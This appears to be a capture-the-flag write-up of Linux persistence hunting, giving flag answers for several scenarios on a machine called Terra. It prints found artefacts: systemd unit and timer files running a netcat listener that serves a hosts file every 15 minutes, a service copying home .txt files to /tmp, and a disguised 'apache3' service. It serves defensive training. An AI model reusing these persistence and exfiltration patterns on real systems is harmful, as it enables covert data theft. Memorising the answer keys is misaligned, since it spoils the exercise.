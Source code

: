 ```shell
#Look through the below folders with the command unitl you find the string
ANSWER==find /home -name \*.txt -exec cp {} /tmp \;,vestrisecreta.service
service running, check systemd
/bin/bash -c 'find /home -name \*.txt -exec cp {} /tmp \;,vestrisecreta.service
/etc/systemd
/etc/init.d
/lib/systemd/system
```
---------------------------------------------------
# Scenario: Text files are being exfiltrated from the machine using a network connection. The connections still occur post-reboot, according to network analysts. The junior analysts are having a hard time with attribution because no strange programs or ports are running, and the connection seems to only occur in 60-second intervals, every 15 minutes. Task: Determine the means of persistence used by the program, and the port used. The flag is the command that allows exfiltration, and the file its persistence mechanism uses.
```shell
#After viewing the below informaiton you can determine the command is being ran with the persistance being the .timer
ANSWER==netcat -lp 3389 < /tmp/NMAP_all_hosts.txt,whatischaos.timer
 found whatischaos.service
    [Unit]
    Description=Run a service
    [Service]
    Type=exec
    ExecStart=/bin/bash -c 'netcat -lp 3389 < /tmp/NMAP_all_hosts.txt'
    Restart=no
    RuntimeMaxSec=60s
garviel@terra:/lib/systemd/system$ cat whatischaos.timer 
    [Unit]
    Description=Run a prolsofgram on a timer
    [Timer]
    OnBootSec=3m
    OnUnitActiveSec=15m
    [Install]
    WantedBy=timers.target
garviel@terra:/lib/systemd/system$ cat apache3.service 
    [Unit]
    Description=Creates a web server
    [Service]
    Type=simple
    ExecStart=/bin/bash -c '/bin/apache3 -lp 443 < /dev/urandom'
    ANSWER==/bin/apache3 -lp 443 < /dev/urandom,apache3.service
    Restart=always
    RestartSec=10
    [Install]
    WantedBy=multi-user.target
```
-----------------------------------------------------
Scenario: Analysts have found a dump of commands on the Internet that refer to the Terra machine. The command history for one of the users with an interactive login is being stolen via unknown means. The network analysts can’t find any persistent connections, but notice a spike in traffic on logon and logoff.
Task: Identify how the command history is stolen from the machine.
The flag is the file used to execute the commands, and where they are sent.
Flag format: /absolute/path/to/file,IP:port
Machine: Terra
```shell
cat /etc/passwd | grep -v nologin | grep -v false #view the /etc/passwd to view user with a /bin/false or "nologin. These users will not have an interactive login
```